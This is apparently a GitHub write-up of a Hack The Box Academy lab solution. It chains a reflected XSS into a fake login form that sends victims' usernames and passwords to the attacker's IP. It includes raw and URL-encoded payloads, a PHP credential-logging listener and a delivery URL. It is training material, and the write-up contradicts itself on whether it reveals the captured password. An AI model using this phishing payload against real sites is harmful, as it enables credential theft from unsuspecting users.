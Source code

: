 # HTB Academy XSS Phishing Task Solution

This repository documents my complete solution to the Hack The Box (HTB) Academy Cross-Site Scripting (XSS) phishing task. The goal was to exploit an XSS vulnerability in an "Image URL" input field, inject a fake login form, capture victim credentials, and use them to retrieve a flag.

- **Attacker IP (My Machine):** `10.10.14.179` (where credentials are sent)
- **Target IP (HTB Server):** `10.129.9.211` (hosts the vulnerable app)
- **Date Solved:** April 10, 2025

---

## Objective
Exploit the XSS vulnerability at `http://10.129.9.211/phishing/index.php?url=` to:
1. Inject a malicious login form that submits credentials to `10.10.14.179`.
2. Capture the victim's credentials using a PHP listener.
3. Log in at `http://10.129.9.211/phishing/login.php` with the captured credentials to get the flag.

---

## Step-by-Step Solution

### Step 1: Confirm XSS Vulnerability
1. **Access the Target Page:**
   - Navigate to: `http://10.129.9.211/phishing/index.php`
   - Identify the "Image URL" input field and submit button.

2. **Test Input Reflection:**
   - Enter: `test`, inspect the page source.
   - Expected: `<img src='test'>` → potential XSS.

3. **Test XSS Exploit:**
   - Input: `'><script>alert(1);</script>`
   - URL: `http://10.129.9.211/phishing/index.php?url='><script>alert(1);</script>`
   - Outcome: Alert pops up → XSS confirmed.

---

### Step 2: Craft the Malicious Payload

#### HTML:
```html
<h3>Please login to continue</h3>
<form action=http://10.10.14.179>
  <input type="username" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="submit" name="submit" value="Login">
</form>
```

#### Raw Payload:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.179><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

#### URL Encoded Payload:
```
%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease%20login%20to%20continue%3C%2Fh3%3E%3Cform%20action%3Dhttp%3A%2F%2F10.10.14.179%3E%3Cinput%20type%3D%22username%22%20name%3D%22username%22%20placeholder%3D%22Username%22%3E%3Cinput%20type%3D%22password%22%20name%3D%22password%22%20placeholder%3D%22Password%22%3E%3Cinput%20type%3D%22submit%22%20name%3D%22submit%22%20value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E
```

#### Malicious URL:
```
http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...%3C%2Fscript%3E
```

---

### Step 3: Set Up the Listener

#### PHP Listener (index.php):
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.9.211/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Command:
```bash
cd /tmp
nano index.php
sudo php -S 0.0.0.0:80 -t /tmp
```

Test with dummy credentials, check `/tmp/creds.txt`.

---

### Step 4: Send the Malicious URL

```
http://10.129.9.211/phishing/send.php?url=http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...
```

HTB bot visits, submits credentials, and they're logged.

---

### Step 5: Login and Get the Flag
- URL: `http://10.129.9.211/phishing/login.php`
- Username: `admin`
- Password: `happyhacking`
- Result: HTB{...}

---
![image](https://github.com/user-attachments/assets/7d57a764-b45f-47f4-9fdd-442bce8a53c1)

---
### Step 6: Cleanup
```bash
Ctrl+C
rm /tmp/index.php /tmp/creds.txt
```

---

### Troubleshooting

- **No XSS?** Try `<img src=x onerror=alert(1)>`
- **No creds?** Check if server is listening and VPN is up.
- **Login fails?** Verify credentials captured properly.

---

### Tools Used

- Browser: Firefox
- Terminal: PHP Server
- OS: Kali Linux
- Editor: Nano

---

### Outcome

- Captured: `admin / (not giving because of HTB policy)`
- Flag: Successfully retrieved.

Happy hacking!
